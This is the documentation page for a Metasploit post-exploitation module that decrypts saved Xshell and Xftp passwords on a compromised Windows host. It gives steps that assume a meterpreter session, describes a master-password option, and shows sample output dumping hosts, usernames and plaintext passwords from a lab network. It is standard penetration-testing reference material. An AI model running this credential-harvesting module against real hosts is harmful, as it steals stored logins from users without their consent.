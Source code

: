 ## Vulnerable Application

This module can decrypt the password of xshell and xftp, If the user chooses to remember the password.

  Analysis of encryption algorithm [here](https://github.com/HyperSine/how-does-Xmanager-encrypt-password).

  You can find its official website [here](https://www.netsarang.com/).

## Verification Steps

  1. Download the latest installer of Xshell or Xftp.
  2. Use xshell to log in to ssh or xftp to log in to ftp.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: ```run post/windows/gather/credentials/xshell_xftp_password```
  6. If the session file is saved in the system, the host, port, user name and plaintext password will be printed.

## Options

 **MASTER_PASSWORD**

  - Specify user's master password, e.g.:123456'

## Scenarios

```
meterpreter > run post/windows/gather/credentials/xshell_xftp_password 

[*] Gather Xshell and Xftp Passwords on WIN-A18RNMNL9C2
[-] Unexpected Windows error 1332
[*] Search session files on C:\Users\Administrator\Documents\NetSarang
[*] Search session files on C:\Users\Administrator\Documents\NetSarang Computer\6
[-] Invalid MASTER_PASSWORD, Decryption failed!
Xshell and Xftp Password
========================

Type         Name              Host            Port  UserName  Plaintext  Password
----         ----              ----            ----  --------  ---------  --------
Xftp_V5.3    session.xfp      192.168.76.1    2121  lftpd     lftpd      yhmb27u7ThR1+BNb5T+/aaps3NvoY3zmr7pVLjWIgfdsyVeHMA==
Xftp_V5.3    session.xfp      192.168.76.1    2121  lftpd                sQsnGxC7ThR1+BNb5T+/aaps3NvoY3zmr7pVLjWIgfdsyVeHMA==
Xshell_V5.3  session.xsh      192.168.76.134  22    kt        123456     l03cn+pMjZae727K08KaOmKSgOaGzww/XVqGr/PKEgIMkjrcbJI=
Xshell_V6.0  session.xsh                      22    kt                   

[+] Passwords stored in: /home/kali-team/.msf4/loot/20200610071906_default_192.168.76.132_host.xshell_xftp_138987.txt
meterpreter > 
```

* Specify **MASTER_PASSWORD**

```
meterpreter > run post/windows/gather/credentials/xshell_xftp_password MASTER_PASSWORD=123456

[*] Gather Xshell and Xftp Passwords on WIN-A18RNMNL9C2
[-] Unexpected Windows error 1332
[*] Search session files on C:\Users\Administrator\Documents\NetSarang
[*] Search session files on C:\Users\Administrator\Documents\NetSarang Computer\6
Xshell and Xftp Password
========================

Type         Name              Host            Port  UserName  Plaintext  Password
----         ----              ----            ----  --------  ---------  --------
Xftp_V5.3    session.xfp      192.168.76.1    2121  lftpd     lftpd      yhmb27u7ThR1+BNb5T+/aaps3NvoY3zmr7pVLjWIgfdsyVeHMA==
Xftp_V5.3    session.xfp      192.168.76.1    2121  lftpd     lftpd      sQsnGxC7ThR1+BNb5T+/aaps3NvoY3zmr7pVLjWIgfdsyVeHMA==
Xshell_V5.3  session.xsh      192.168.76.134  22    kt        123456     l03cn+pMjZae727K08KaOmKSgOaGzww/XVqGr/PKEgIMkjrcbJI=
Xshell_V6.0  session.xsh                      22    kt                   

[+] Passwords stored in: /home/kali-team/.msf4/loot/20200610072134_default_192.168.76.132_host.xshell_xftp_307846.txt
meterpreter > 

```